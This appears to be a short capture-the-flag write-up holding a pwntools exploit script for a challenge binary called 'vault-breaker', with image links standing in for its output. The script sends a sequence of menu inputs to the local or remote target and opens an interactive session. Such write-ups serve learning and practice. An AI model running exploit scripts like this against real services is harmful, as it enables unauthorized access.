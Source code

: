 


# ![image](https://github.com/user-attachments/assets/7ee7128e-ac04-4e1d-82aa-5a774d0cced6)

```
#ab.py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```
> Below is the output of running ab.py script.
# ![image](https://github.com/user-attachments/assets/ada66c6b-172a-4d73-972b-6d702fda0919)

# ![image](https://github.com/user-attachments/assets/e3a89554-574f-4a17-b5cf-cd40f8613ba0)

